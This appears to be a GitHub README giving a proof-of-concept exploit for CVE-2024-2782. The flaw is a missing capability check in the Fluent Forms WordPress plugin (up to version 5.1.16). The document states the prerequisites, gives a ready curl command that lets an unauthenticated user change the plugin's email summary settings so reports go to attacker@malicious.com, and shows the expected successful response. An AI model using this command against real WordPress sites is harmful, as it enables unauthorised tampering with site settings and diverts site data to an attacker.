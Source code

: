 # CVE-2024-2782-PoC
CVE-2024-2782 Proof-of-Concept 

The Contact Form Plugin by Fluent Forms for Quiz, Survey, and Drag & Drop WP Form Builder plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the /wp-json/fluentform/v1/global-settings REST API endpoint in all versions up to, and including, 5.1.16. This makes it possible for unauthenticated attackers to modify all of the plugin's settings.

**Prerequisites**
- WordPress site with Contact Form – Fluent Forms ≤ 5.1.16 active.
- Attacker can reach the site’s REST API (no authentication needed).

**Exploit Command**
```
curl -i -X POST "http://TARGET/wp-json/fluentform/v1/global-settings"
  -H "Content-Type: application/json"
  -d '{
  "key": "emailSummarySettings",
  "email_report": "{"send_to_type":"custom","custom_recipients":"attacker@malicious.com"}"
}'
```
Expected Response
```
HTTP/1.1 200 OK
Date: Thu, 31 Jul 2025 13:11:49 GMT
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.3.11
X-Robots-Tag: noindex
Link: <http://target:9090/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Allow: POST
Content-Length: 4
Content-Type: application/json; charset=UTF-8

true
```

**Screenshot**
<img width="1117" height="435" alt="image" src="https://github.com/user-attachments/assets/d94eab04-e436-4a2e-b9b2-b6cc39f95a50" />

Verify changes in WordPress database
<img width="940" height="208" alt="image" src="https://github.com/user-attachments/assets/0faa643f-6932-488b-abd0-edbc0070f78d" />
